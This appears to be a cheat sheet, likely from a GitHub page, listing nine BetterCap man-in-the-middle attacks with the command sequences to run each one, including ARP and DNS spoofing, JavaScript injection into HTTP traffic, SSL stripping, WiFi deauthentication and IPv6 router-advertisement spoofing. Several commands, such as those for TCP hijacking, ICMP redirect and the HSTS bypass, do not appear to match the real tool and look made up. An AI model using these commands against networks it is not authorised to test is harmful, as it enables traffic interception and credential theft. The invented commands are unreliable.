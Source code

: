 #### Man-in-the-Middle (MITM) Attacks

BetterCap is renowned for its ability to perform various MITM attacks, allowing for interception and manipulation of traffic between devices.

1. **ARP Spoofing**: Conducts ARP spoofing to intercept traffic between the target IP and the gateway.
    ```bash
    set arp.spoof.targets <target_ip>
    arp.spoof on
    ```
2. **DNS Spoofing**: Redirects DNS queries for specific domains to a malicious IP address.
    ```bash
    set dns.spoof.domains <target_domain>
    set dns.spoof.address <spoofed_ip>
    dns.spoof on
    ```
3. **HTTP Proxy Injection**: Injects a JavaScript file into HTTP traffic, allowing for content manipulation.
    ```bash
    set http.proxy.script inject.js
    http.proxy on
    net.sniff on
    ```
4. **HTTPS Downgrade Attack**: Strips HTTPS from web traffic, downgrading it to HTTP and making it easier to intercept and manipulate.
    ```bash
    https.proxy on
    https.proxy.sslstrip on
    net.sniff on
    ```
5. **TCP Hijacking**: Hijacks TCP sessions by injecting packets into an active connection.
    ```bash
    tcp.hijack on
    ```
6. **ICMP Redirect Attack**: Redirects ICMP packets to mislead the target about the correct network route.
    ```bash
    set icmp.redirect.target <target_ip>
    icmp.redirect on
    ```
7. **WiFi Deauthentication Attack**: Sends deauthentication packets to a specific WiFi device, forcing it to disconnect from the network.
    ```bash
    wifi.deauth <target_bssid>
    ```
8. **IPv6 MITM via Router Advertisement**: Spoofs IPv6 router advertisements to perform MITM attacks on IPv6 networks.
    ```bash
    set ipv6.ra.spoof.address <spoofed_ipv6>
    ipv6.ra.spoof on
    ```
9. **HSTS Bypass with BetterCap**: Disables HTTP Strict Transport Security (HSTS), allowing for easier HTTPS downgrades.
    ```bash
    https.proxy on
    https.proxy.hsts off
    net.sniff on
    ```
